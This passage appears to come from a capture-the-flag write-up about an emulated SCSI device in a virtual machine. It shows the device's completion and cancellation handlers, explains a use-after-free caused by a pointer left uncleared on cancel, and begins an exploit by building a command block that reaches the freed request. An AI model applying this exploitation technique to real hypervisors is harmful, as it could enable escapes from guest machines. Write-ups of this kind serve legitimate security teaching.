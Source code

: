      }
    }
  }
}
{% endhighlight %}

`case 12, 16 and 20` are self-explanatory. I assume `ctf_process_reply` and `ctf_add_cmd_data` are to get the reply and write to the SCSI target, we will use them later.

## The bug

When a SCSI request is completed the `ctf_request_complete` callback is executed and when the request is cancelled `ctf_request_cancelled` is executed, we can see a potential UAF there.

{% highlight C %}
void ctf_request_complete(SCSIRequest *req) {
  CTFState *s;
  s = (CTFState *)req->hba_private;
  s->state ^= 0x10;
  free(s->req.cmd_buf);
  s->req.cmd_buf = 0;
  scsi_req_unref(req);
  s->cur_req = 0;
}

void ctf_request_cancelled(SCSIRequest *req) {
  CTFState *s;
  s = (CTFState *)req->hba_private;
  s->state ^= 0x10;
  free(s->req.cmd_buf);
  s->req.cmd_buf = 0;
  scsi_req_unref(req);
  // << Missing
}
{% endhighlight %}

To confirm we have a dangling pointer we can trace the cur_req from `ctf_mmio_write -> ctf_process_req -> scsi_req_cancel -> scsi_req_dequeue -> scsi_req_unref -> g_free`.

## Exploitation

To reach the `scsi_req_cancel` I used the following CDB.

{% highlight C %}
    CTF_req_head* head;
    //...
    head->id = 0;
    head->channel = 0;
    head->lun = 0;
    head->type = 5;
    head->cdb_len = 12;
    head->cdb[0] = 0xa0; // REPORT LUN
    head->cdb[1] = 0; // RESERVED
    head->cdb[2] = 2; // lba, need <= 2
    head->cdb[3] = 0; // RESERVED
    head->cdb[4] = 0; // RESERVED
    head->cdb[5] = 0; // RESERVED
    *(unsigned int*)&head->cdb[6] = 0x50000000; // XFER - BIG ENDIEN, need > 0xf
    head->cdb[10] = 0; // RESERVED
    head->cdb[11] = 0; // CONTROL
{% endhighlight %}
